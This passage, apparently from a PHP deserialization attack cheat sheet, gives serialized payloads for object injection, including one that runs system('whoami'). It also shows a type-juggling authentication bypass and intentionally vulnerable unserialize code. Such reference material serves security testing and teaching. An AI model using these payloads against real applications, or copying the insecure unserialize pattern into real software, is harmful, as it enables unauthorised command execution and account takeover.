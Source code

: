 Craft a payload using existing code inside the application.

* Basic serialized data
    ```php
    a:2:{i:0;s:4:"XVWA";i:1;s:33:"Xtreme Vulnerable Web Application";}
    ```

* Command execution
    ```php
    string(68) "O:18:"PHPObjectInjection":1:{s:6:"inject";s:17:"system('whoami');";}"
    ```


## Authentication Bypass

### Type Juggling

Vulnerable code:

```php
<?php
$data = unserialize($_COOKIE['auth']);

if ($data['username'] == $adminName && $data['password'] == $adminPassword) {
    $admin = true;
} else {
    $admin = false;
}
```

Payload:

```php
a:2:{s:8:"username";b:1;s:8:"password";b:1;}
```

Because `true == "str"` is true.


## Object Injection

Vulnerable code:

```php
<?php
class ObjectExample
{
  var $guess;
  var $secretCode;
}

$obj = unserialize($_GET['input']);

if($obj) {
    $obj->secretCode = rand(500000,999999);
    if($obj->guess === $obj->secretCode) {
        echo "Win";
    }
}
?>
```

